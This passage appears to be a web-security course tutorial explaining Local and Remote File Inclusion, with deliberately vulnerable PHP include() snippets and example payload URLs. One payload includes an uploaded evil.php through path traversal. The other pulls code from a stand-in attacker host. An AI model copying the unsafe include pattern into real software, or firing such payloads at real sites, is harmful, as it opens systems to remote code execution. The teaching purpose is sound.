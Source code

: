 The above definitions are very similar, so what is the exact difference between the two of them and how does an exploit affect the web application in each case?

## Local File Inclusion

**Local File Inclusion** can be divided into subcategories based on the end target of the attack.

1. **Path Traversal** - which we have studied in a previous session.
It uses a local file path and enables the attacker to access the contents of arbitrary files.
The outcome of this attack is to read sensitive data and expose confidential information.

2. **Remote Code Execution (RCE)** - which is a **very dangerous vulnerability**.
It could be present in web applications that offer the possibility of uploading arbitrary files without proper checks.
Once a malicious file was uploaded (such as a reverse shell), the attacker can compromise the entire system.

```php
<?php
    // Get the filename from a GET input
    // Example - http://example.com/?file=filename.php
    $file = $_GET['file'];

    // Unsafely include the file
    // Example - filename.php
    include('directory/' . $file);
?>
```

Payload: `http://example.com/?file=../../uploads/evil.php`

## Remote File Inclusion

Exactly like in the case of **Local File Inclusion**, where the attacker is able to upload a reverse shell on the server, the **Remote File Inclusion** vulnerability lets the attacker include a remote file in the current web application and execute its contents.
This file could be a reverse shell and give the attacker **full system control**.

```php
<?php
    // Get the filename from a GET input
    // Example - http://example.com/?file=index.php
    $file = $_GET['file'];

    // Unsafely include the file
    // Example - index.php
    include($file);
?>
```

Payload: `http://example.com/?file=http://attacker.example.com/evil.php`

**Note:** Even though some web servers run as **root** (**which is a very bad practice**), most of them run as a special user (**www-data**) which doesn’t have root privileges.
This means that getting a reverse shell on a web server will grant you only the rights of the user running the website.
In order to get root access on the machine, further **privilege escalation** methods should be employed, which you will learn about in a future session.
